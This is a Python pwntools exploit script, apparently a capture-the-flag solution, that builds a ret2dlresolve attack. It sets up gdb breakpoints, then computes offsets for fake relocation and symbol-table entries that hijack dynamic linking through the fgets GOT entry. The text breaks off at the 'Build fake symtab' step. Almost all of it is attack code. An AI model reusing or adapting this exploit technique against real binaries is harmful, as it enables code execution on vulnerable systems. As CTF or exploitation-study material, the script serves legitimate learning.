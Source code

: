 ```python=
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
r = lambda nbytes: p.recv(nbytes)
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()
ra = lambda : p.recvall()
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*0x4011ad
        b*0x4011b7
        b*0x4011b8
        b*0x401192
        b*0x15555552fda9
        c
        ''')
        input()

        # p = gdb.debug([exe.path],"""
        #     b*0x4011ad
        #     b*0x4011b7
        #     b*0x4011b8
        #     b*0x401192
        #     c
        #     """)
        # return p
        # input()



if args.REMOTE:
    p = remote('')
else:
    p = process([exe.path])
GDB()
###########################################################################################
strtab = 0x3ff568
symtab = 0x3ff5e0
jmprel = 0x4005f0

# Formula
# 0x303
rela_addr = 0x404df0
relo_arg = (rela_addr - jmprel)//24
print(hex(relo_arg))
sym_addr = 0x404e18
sym_num = (sym_addr - symtab)//24
print(hex(sym_num))
strtab_addr = sym_addr+24
st_name = (strtab_addr - strtab)
print(hex(st_name))

# Build fake rela
r_offset = p64(exe.got.fgets)
r_info = p64((sym_num << 32) | 0x7)
r_addend = p64(0)
rela_fake = r_offset + r_info + r_addend
print(hex(u64(r_offset)))
print(hex(u64(r_info)))

# Build fake symtab
```